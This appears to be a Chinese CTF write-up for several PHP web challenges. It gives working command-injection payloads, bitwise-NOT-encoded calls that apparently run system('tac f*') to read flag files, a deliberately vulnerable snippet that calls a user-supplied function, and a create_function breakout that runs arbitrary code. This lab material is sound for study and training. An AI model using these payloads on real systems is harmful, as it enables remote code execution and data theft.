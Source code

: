 # 142 0与0x0

0的16进制是0x0

# 145 三目运算符 取反

```
eval("return 1?phpinfo():1;");
```

```
v1=1&v3=?(~%8c%86%8c%8b%9a%92)(~%8b%9e%9c%df%99%d5):&v2=1
```

# 146 加强或

```
?v1=1&v2=1&v3=|(~%8c%86%8c%8b%9a%92)(~%9c%9e%8b%df%99%d5)|
```

# 147 函数绝对路径

> php里默认命名空间是\，所有原生函数和类都在这个命名空间中。 普通调用一个函数，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路 径； 而如果写\function_name()这样调用函数，则其实是写了一个绝对路径。 如果你在其他namespace里调用系统类，就必须写绝对路径这种写 法

```php
if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }
}
```

 思路还算是比较清晰，正则很明显，就是要想办法在函数名的头或者尾找一个字符，不影响函数调用

紧接着就到了如何只控制第二个参数来执行命令的问题了，后来找到可以用`create_function`来完成，`create_function`的第一个参数是参数，第二个参数是内容。

函数结构形似

```
create_function('$a,$b','return 111')

==>

function a($a, $b){
    return 111;
}
```

然后执行，如果我们想要执行任意代码，就首先需要跳出这个函数定义。

```
create_function('$a,$b','return 111;}phpinfo();//')

==>

function a($a, $b){
    return 111;}phpinfo();//
}
```
